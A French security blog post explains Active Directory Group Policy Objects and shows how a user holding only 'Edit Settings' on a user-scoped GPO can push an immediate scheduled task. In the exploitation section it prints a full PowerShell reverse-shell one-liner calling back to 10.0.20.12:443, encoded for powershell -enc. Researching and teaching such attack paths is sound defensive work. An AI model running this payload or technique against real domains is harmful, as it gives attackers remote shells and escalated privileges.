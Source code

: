 ```yaml
---
title: "GPO - Chemin d'attaque"
date: 2019-04-23 11:28:42
author: "Pixis"
layout: post
permalink: /gpo-abuse-with-edit-settings/
disqus_identifier: 0000-0000-0000-00ae
cover: assets/uploads/2019/04/gpo_banner.png
description: "Cet article présente ce qu'est une GPO puis décrit un chemin d'attaque possible lorsqu'un attaquant a le droit de modifier les paramètres d'une GPO qui s'applique à des utilisateurs."
tags:
  - "Active Directory"
  - Windows
---
```


Cet article présente ce qu'est une GPO (Group Policy Object) puis décrit un chemin d'attaque possible lorsqu'un attaquant a le droit de modifier les paramètres d'une GPO qui s'applique à des utilisateurs.

<!--more-->

## Group Policy Object

### Définition

Parmi les différents rôles d'un Active Directory se trouve le rôle de gestion du parc. Active Directory permet de gérer l'ensemble des machines et utilisateurs du système d'information, et pour cela les "stratégies de groupe" (Group Policy Objects - GPO) sont un outil indispensable.

Concrètement, les GPO sont un ensemble de règles/actions qui s'appliquent à un ensemble bien défini d'objets. Une GPO permet de faire beaucoup, beaucoup de choses. 

[![Example GPO](/assets/uploads/2019/04/example_gpo.png)](/assets/uploads/2019/04/example_gpo.png)

Comme on le voit sur cette capture d'écran, il est possible de créer/modifier des scripts au démarrage et à l'arrêt d'une machine, de changer les paramètres du pare-feu, de créer des tâches planifiées, ou même d'ajouter des utilisateurs au groupe local d'administration. Ce ne sont que des exemples parmi tant d'autres pour montrer à quel point les fonctionnalités imposables via GPO sont diverses et puissantes.

### Composition

Une GPO est composée de deux éléments :

* Un conteneur (Group Policy Container - GPC), qui est l'objet enregistré dans l'Active Directory, sous le groupe `adsec.local > system > policies`. Chaque GPO est identifiée par un identifiant unique dans le domaine.

[![GPC](/assets/uploads/2019/04/gpc.png)](/assets/uploads/2019/04/gpc.png)

C'est ici que sont gérés finement les droits de création/modification des GPO, comme tout objet de l'Active Directory. 


* Les fichiers qui contiennent les informations à appliquer sur les machines ou les utilisateurs. Ces fichiers sont présents sur chaque contrôleur de domaine, dans le partage réseau `\\dc-01.adsec.local\SYSVOL\adsec.local\Policies\`, et sont organisés dans des dossiers : Un dossier par GPO, le nom du dossier étant l'identifiant unique correspondant au conteneur GPC.

[![GPO files](/assets/uploads/2019/04/gpo_files.png)](/assets/uploads/2019/04/gpo_files.png)

C'est grâce à l'exposition de ces fichiers aux comptes de domaine que ces derniers peuvent mettre à jour leurs GPO.

## Contexte de recherche

Dans ma croisade en plein Active Directory, j'utilise de manière très intense l'outil [Bloodhound](https://github.com/BloodHoundAD/BloodHound) développé par [@wald0](https://twitter.com/_wald0), [@Harmj0y](https://twitter.com/harmj0y) et [@CptJesus](https://twitter.com/cptjesus), que je ne remercierai jamais assez pour leur travail et leur disponibilité sur leur slack [BloodHoundHQ](https://bloodhoundgang.herokuapp.com/). 

Après avoir regardé la [prise de parole](https://www.youtube.com/watch?v=0r8FzbOg2YU&list=PL1eoQr97VfJnvOWo_Jxk2qUrFyB-BJh4Y&index=4&t=0s) de [@wald0](https://twitter.com/_wald0) et [@CptJesus](https://twitter.com/cptjesus) à la conférence [WeAreTroopers](https://www.troopers.de/), j'ai commencé à me pencher sur les chemins d'attaque impliquant les GPO. Bloodhound aide énormément sur ce sujet, et propose notamment un chemin d'attaque lorsqu'un compte du domaine a les droits `WriteDacl` sur une GPO. 

[![BloodHound Path](/assets/uploads/2019/04/bh_path.png)](/assets/uploads/2019/04/bh_path.png)

Sur ce schéma, on voit un utilisateur avec un crâne, correspondant à un compte compromis. Ce compte fait partie d'un groupe qui possède les droits `WriteDacl` sur une GPO. Cette GPO s'applique enfin à une unité d'organisation (OU) contenant notamment l'utilisateur en bas à droite, cible de l'attaque.

Ce droit `WriteDacl` permet aux membres du groupe de modifier les ACL (Access Control List) de la GPO concernée, c'est à dire les droits d'accès à la GPO, notamment la modification du propriétaire de l'objet. Ainsi, un utilisateur du groupe possédant ce droit peut s'auto-proclamer propriétaire, pour ensuite la modifier arbitrairement.

Par défaut, lorsqu'une GPO est créée, peu de personnes ont le droit de la modifier. Les utilisateurs peuvent la lire (obligatoire pour pouvoir l'appliquer !), mais seuls les groupes "Domain Admins" et "Enterprise Admins" ont les droits absolus dessus, c'est à dire qu'ils peuvent la modifier (Edit Settings), la supprimer (Delete), et modifier les droits d'accès (Modify Security).

[![ACL GPO](/assets/uploads/2019/04/ACL_GPO.png)](/assets/uploads/2019/04/ACL_GPO.png)


Si un administrateur souhaite déléguer ces permissions à un utilisateur sans pour autant l'ajouter à l'un des deux groupes, c'est tout à fait possible via cet onglet de délégation. C'est un endroit simplifiant la gestion des droits sur une GPO. En effet, il est tout à fait possible de modifier les droits directement au niveau de la GPC, mais c'est beaucoup plus complexe.

[![GPC Rights](/assets/uploads/2019/04/GPC_rights.png)](/assets/uploads/2019/04/GPC_rights.png)

On voit que la barre de défilement permet de lister un grand, très grand nombre de paramètres d'accès.

Il est donc plus aisé de passer par l'interface de gestion des GPO pour ajouter un utilisateur afin de lui déléguer des droits :

[![Add User ACL Gpo](/assets/uploads/2019/04/add_user_acl_gpo.png)](/assets/uploads/2019/04/add_user_acl_gpo.png)

Puis on indique les droits qu'on lui concède :

[![Edit settings user](/assets/uploads/2019/04/edit_settings_add_user.png)](/assets/uploads/2019/04/edit_settings_add_user.png)

Trois choix sont proposés, choix qui sont une préselection facilitant la vie des administrateurs, en modifiant des droits bien précis au niveau de la GPC.

[![Edit settings added for user](/assets/uploads/2019/04/settings_added.png)](/assets/uploads/2019/04/settings_added.png)

Maintenant cet utilisateur fait partie des personnes/groupes à avoir les droits ultimes sur cette GPO. C'est ce contrôle total que l'on voit apparaitre dans BloodHound lorsqu'une entité a un lien "WriteDacl" vers une GPO. En effet, cette présélection ajoute les paramètres de sécurité "Modify Owner" et "Modify Permissions".

[![Write DACL](/assets/uploads/2019/04/writedacl.png)](/assets/uploads/2019/04/writedacl.png)



## Droit "Edit Settings"

On a vu au-dessus qu'il y avait trois niveaux de délégation :

* Read
* Edit Settings
* Edit Settings, delete, modify security

Le troisième niveau est pris en charge dans la collecte BloodHound. Cependant, que se passe-t-il si un utilisateur ne possède que le droit de modifier la GPO, mais pas les ACL associées ? C'est la question que je me suis posé. 

Pour y répondre, j'ai créé une GPO d'exemple, appelée "TestGPO Abuse", s'appliquant à l'ensemble des utilisateurs appartenant à l'OU "Domain Users". Comme dans l'exemple précédant, j'ai ajouté l'utilisateur "jdoe" dans la délégation de la gestion de cette GPO, en indiquant qu'il ne pouvait que modifier les paramètres de cette GPO, mais pas les ACL associées ("Edit Settings").

[![Edit Settings for jdoe](/assets/uploads/2019/04/edit_settings_jdoe.png)](/assets/uploads/2019/04/edit_settings_jdoe.png)

## GPO appliquée à des utilisateurs

Dans ma recherche, je souhaitais également savoir ce que je pouvais faire lorsque la GPO ne s'appliquait qu'à des utilisateurs, pas à des machines. C'est pourquoi "TestGPO Abuse" ne s'applique qu'à l'OU "Domain Users". En effet, tous les paramètres contrôlables dans la partie "Computer Configuration" de la GPO ne s'appliqueront pas si cette GPO est destinée à des utilisateurs. Seuls ceux dans "User Configuration" le seront.

[![No Computer GPO](/assets/uploads/2019/04/no_computer_gpo.png)](/assets/uploads/2019/04/no_computer_gpo.png)

Mais concrètement, qu'est-ce qui est disponible dans les paramètres de GPO appliqués à un utilisateur ? Et bien beaucoup moins de choses, mais des paramètres intéressants tout de même !

[![User Example GPO](/assets/uploads/2019/04/user_gpo_example.png)](/assets/uploads/2019/04/user_gpo_example.png)

On voit qu'on peut installer des paquets, gérer encore une fois les scripts au login/logout, éditer des groupes et utilisateurs locaux et les tâches planifiées.

## Exploitation via une tâche planifiée immédiate

Nous allons nous intéresser plus particulièrement aux tâches planifiées. Il est possible de créer des tâches planifiées qui s'exécuteront immédiatement, lorsque la GPO sera appliquée à l'utilisateur.

Ainsi, si nous nous connectons en tant que l'utilisateur `jdoe` sur une machine, nous pouvons créer cette tâche.

[![Abuse Task](/assets/uploads/2019/04/abusetask.png)](/assets/uploads/2019/04/abusetask.png)

Elle est créée en tant que l'utilisateur `jdoe`, et lorsqu'elle sera appliquée, ce sera en tant que l'utilisateur à qui elle s'applique.

Dans l'onglet "Actions", nous indiquons ce qu'il se passera à l'exécution. Ici, nous utilisons un reverse-shell en Powershell pour que lors de son exécution, l'utilisateur cible se connecte à l'attaquant en proposant un shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.0.20.12",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Ce code est transormé en base 64 pour le passer à la commande `powershell -enc <base 64 de la commande>`.

[![Abuse Task Powershell](/assets/uploads/2019/04/abusetask_pwsh.png)](/assets/uploads/2019/04/abusetask_pwsh.png)

Une fois cette tâche créée, lors de la mise à jour des GPO sur un client, par exempe sur le compte `support-account`, elle sera exécutée sur la machine, et l'attaquant récupère un shell.

[![Reverse Shell Worked](/assets/uploads/2019/04/re_shell_worked.png)](/assets/uploads/2019/04/re_shell_worked.png)

## Conclusion

L'idée de cet article est de montrer que les GPO sont un pilier dans l'organisation d'un Active Directory, et doivent être maitrisées tout autant que beaucoup d'autres objets. Une permission mal placée peut permettre à un attaquant d'en abuser et d'élever ses privilèges dans le système d'information.

Ici, l'exemple de la tâche planifiée a été utilisé sur une GPO appliquée à des utilisateurs, cependant il existe un grand nombre de possibilités ouvertes par les GPO qui peuvent être utilisées pour exécuter du code. 